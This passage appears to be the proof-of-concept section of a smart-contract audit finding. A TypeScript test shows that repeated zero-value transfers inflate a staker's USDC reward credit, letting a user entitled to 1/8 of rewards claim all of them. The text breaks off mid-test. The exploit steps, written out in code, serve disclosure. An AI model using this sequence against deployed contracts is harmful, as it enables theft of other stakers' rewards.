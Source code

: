 ## Proof of Concept

In the following test, it can be seen how a user who is entitled to only 1/8 of the staking rewards is able to claim **all** of them, using the above-described vulnerability:

```typescript
it("should double the reward of a given user on each token transfer", async () => {
  const amount1 = ethers.parseEther("500"); // 1/8 of underlying supply
  const amount2 = ethers.parseEther("3500"); // 7/8 of underlying supply
  const distributeAmount = ethers.parseUnits("500", 6);

  await CSXToken.connect(deployer).transfer(user1.getAddress(), amount1);
  await CSXToken.connect(deployer).transfer(user2.getAddress(), amount2);
  await CSXToken.connect(user1).approve(staking.target, amount1);
  await CSXToken.connect(user2).approve(staking.target, amount2);

  await staking.connect(user1).stake(amount1);
  await staking.connect(user2).stake(amount2);

  await USDCToken.connect(deployer).approve(staking.target, distributeAmount);
  await staking
    .connect(deployer)
    .depositDividend(USDCToken.target, distributeAmount);
  await staking.connect(keeperNode).distribute(true, true, true);

  // credit[USDC][user1] = 0 => rewardOf(user1) = 500
  const initialReward = await staking.rewardOf(user1.getAddress());
  await staking
    .connect(user1)
    .transfer("0x0000000000000000000000000000000000000001", BigInt(0));

  // credit[USDC][user1] = 500 => rewardOf(user1) = 500
  await staking
    .connect(user1)
    .transfer("0x0000000000000000000000000000000000000001", BigInt(0));

  // credit[USDC][user1] = 1000 => rewardOf(user1) = 1000
  await staking
    .connect(user1)
    .transfer("0x0000000000000000000000000000000000000001", BigInt(0));

  // credit[USDC][user1] = 2000 => rewardOf(user1) = 2000
  await staking
    .connect(user1)
    .transfer("0x0000000000000000000000000000000000000001", BigInt(0));

  // credit[USDC][user1] = 4000 => rewardOf(user1) = 4000
  const postTransferReward = await staking.rewardOf(user1.getAddress());

  console.log("> Initial reward: ", initialReward.usdcAmount);
  console.log("> Reward after 4 transfers: ", postTransferReward.usdcAmount);

  expect(postTransferReward.usdcAmount).to.equal(
    initialReward.usdcAmount * BigInt(8)
  );

  const usdcBalanceBefore = await USDCToken.balanceOf(staking.getAddress());
  await staking.connect(user1).claim(true, false, false, false);

  const usdcBalanceAfter = await USDCToken.balanceOf(staking.getAddress());

  console.log("> USDC balalance before claim: ", usdcBalanceBefore);
  console.log("> USDC balalance after claim: ", usdcBalanceAfter);

```